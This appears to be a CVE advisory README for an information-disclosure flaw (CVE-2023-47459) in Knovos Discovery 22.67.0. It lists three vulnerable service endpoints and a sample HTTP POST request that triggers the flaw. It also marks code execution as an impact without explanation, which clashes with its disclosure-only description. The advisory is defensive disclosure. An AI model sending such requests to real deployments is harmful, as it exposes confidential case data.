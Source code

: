 # CVE-2023-47459

## Description

A vulnerability was discovered in Knovos Discovery v.22.67.0 that allows a remote attacker to access confidential information using the components: <br> /DiscoveryReview/Service/CaseManagement.svc/GetProductSiteName, /DiscoveryReview/Service/WorkProduct.svc/BindRelatedDocumentsInformation and /DiscoveryProcess/Service/Admin.svc/getReviewIdForReport.

## Vulnerability Type

Stack trace / Information Disclosure

## Vendor of Product

Knovos Discovery

## Affected Product Code Base

Version 22.67.0 - Version 22.67.0

## Affected Component

/DiscoveryReview/Service/CaseManagement.svc/GetProductSiteName
/DiscoveryReview/Service/WorkProduct.svc/BindRelatedDocumentsInformation
/DiscoveryProcess/Service/Admin.svc/getReviewIdForReport

## Attack Type

Remote

## Impact Code execution

true

## Impact Information Disclosure

true

## Discoverer

- Aleksey Vistorobskiy

## Attack Vectors

authorized user

```
POST /DiscoveryReview/Service/WorkProduct.svc/BindRelatedDocumentsInformation HTTP/1.1
Host: vuln_host
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Content-Type: application/json; charset=utf-8
X-Requested-With: XMLHttpRequest
Content-Length: 17
Connection: close

{
	"Id": id
}

```

## Reference

- https://www.knovos.com/
- https://github.com/aleksey-vi/CVE-2023-47459
